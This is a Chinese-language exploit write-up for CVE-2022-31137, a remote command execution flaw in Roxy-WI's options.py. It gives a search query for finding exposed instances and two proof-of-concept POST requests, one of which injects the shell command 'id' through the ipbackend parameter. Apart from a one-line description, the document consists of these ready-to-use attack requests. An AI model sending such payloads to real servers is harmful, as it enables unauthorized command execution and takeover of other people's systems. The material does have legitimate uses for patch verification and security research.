


# Roxy-Wi options.py 远程命令执行漏洞 CVE-2022-31137

## 漏洞描述

Roxy-Wi options.py 存在远程命令执行漏洞，攻击者通过漏洞可以执行命令获取服务器权限

## 漏洞影响

```
Roxy-WI
```

## 网络测绘

```
app="HAProxy-WI"
```

## 漏洞复现

登录页面



验证POC

```
POST /app/options.py
  
alert_consumer=1&serv=127.0.0.1&ipbackend=%22%3Bid+%23%23&backend_server=127.0.0.1
```



另一个POC

```
POST /app/options.py HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:101.0) Gecko/20100101 Firefox/101.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 105
Origin: https://x.x.x.x
Dnt: 1
Referer: https://x.x.x.x/app/login.py
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

alert_consumer=notNull&serv=roxy-wi.access.log&rows1=10&grep=&exgrep=&hour=00&minut=00&hour1=23&minut1=45
```

